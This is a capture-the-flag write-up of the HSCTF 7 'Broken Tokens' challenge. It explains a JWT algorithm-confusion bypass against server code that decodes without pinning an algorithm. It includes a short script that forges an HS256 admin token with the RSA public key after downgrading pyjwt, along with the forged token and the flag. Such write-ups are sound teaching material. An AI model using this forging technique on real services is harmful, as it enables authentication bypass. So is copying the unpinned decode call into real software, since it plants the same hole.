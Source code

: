 ```yaml
---
title: Broken Tokens
date: 2020-06-06
tags: web
ctf: HSCTF 7
---
```

## Problem
```
I made a login page, is it really secure?

https://broken-tokens.web.hsctf.com/

Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.

Author: hmmm
```

The program also provided [main.py](./files/main.py) which appeared to be the code on the server.

## Solution
The page greets us with a web portal login, and a public key file ([publickey.pem](./files/publickey.pem)). Upon inspection, the login seemed to use server sided authentication. Trying to login with random credentials showed us a page stating ```Logged in as guest``` and left a cookie named ```auth```:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdXRoIjoiZ3Vlc3QifQ.e3UX6vGuTGHWouov4s5HuKn6B5zbe0ZjxwHCB_OQlX_TcntJuj89x0RDi8gQi88TMoXSFN-qnFUQxillB_nD5ErrVZKL8HI5Ah_iQBX1xfu097H2xT3LAhDEceq4HDEQY-iC4TVSxMGM0AS_ItsVLBIrxk8tapcANvCW_KnO3mEFwfQOD64YHtapSZJ-kKjdN19lgdI_g-2nNI83P6TlgLtZ8vo1BB1zt_8b4UECSiPb67YCsrCYIIsABq5UyxSwgUpZsM6oxW0k1c4NbaUTnUWURG2qWDVw56svRQETU3YjO59AMj67n9r9Y9NJ9FBlpHQ60Ck-mfL5JcmFE9sgVw
```

The format appears to be a JWT token. Using a [web JWT tool](https://jwt.io/), we can decode the token to find more information. The header contains:
```
{
  "typ": "JWT",
  "alg": "RS256"
}
```
and there is a payload:
```
{
  "auth": "guest"
}
```

We need to create a modified JWT token that contained ```"auth": "admin"``` to gain access to the admin page, which contains the flag. The JWT token is signed using the RS256 algorithm, which is an asymmetric algorithm that uses a private and public keypair. Without any other vulnerabilities, we would need to bruteforce the private key in order to sign a modified token, which is practically impossible. Looking at the server code ([main.py](./files/main.py)), we can find some information about how the token is validated:

```
import jwt

with open("publickey.pem", "r") as f:
	PUBLIC_KEY = f.read()

def index():
	else:
		auth = request.cookies.get("auth")
		if auth is None:
			logged_in = False
			admin = False
		else:
			logged_in = True
			admin = jwt.decode(auth, PUBLIC_KEY)["auth"] == "admin"
		resp = make_response(
			render_template("index.html", logged_in=logged_in, admin=admin, flag=FLAG)
		)
	return resp
```
The server decodes the JWT token with the following line:
```
admin = jwt.decode(auth, PUBLIC_KEY)["auth"] == "admin"
```

Looking at the [pyjwt API reference](https://pyjwt.readthedocs.io/en/latest/api.html), we note that the implementation of jwt.decode() did not specify an algorithm. This means that we can attempt to create a JWT token using a different algorithm, such as HS256, which is a symmetric algorithm that uses a secret key to sign the JWT. pyjwt would then use the ```PUBLIC_KEY``` as the secret key. Since we know what ```PUBLIC_KEY``` is, we can easily create a valid token.

Copying the usage of pyjwt and opening publickey.pem in the exact same method (to prevent weird errors with newlines): ([brokentokens.py](./files/brokentokens.py))
```
import jwt

f = open("publickey.pem", "r")
PUBLIC_KEY = f.read()

key = jwt.encode({"auth": "admin"}, PUBLIC_KEY, algorithm="HS256")
print(key)
```

When attempting to run the code, we get an error:
```
"File "C:\Python38\lib\site-packages\jwt\algorithms.py", line 150, in prepare_key
    raise InvalidKeyError(
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret."
```

It seems like newer versions of pyjwt prevent signing JWT tokens with HMAC keys that are formatted as an RSA key. We can bypass this by installing an older version of pyjwt (<=0.4.3) where the exception was not implemented yet. After ```pip install pyjwt==0.4.3```, we get our new JWT token:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4
```

When we swap our cookie with the new JWT token, we are now logged in as admin and are greeted with the flag!

```
Logged in as admin
The flag is flag{1n53cur3_tok3n5_5474212}
```

**Flag:** ```flag{1n53cur3_tok3n5_5474212}```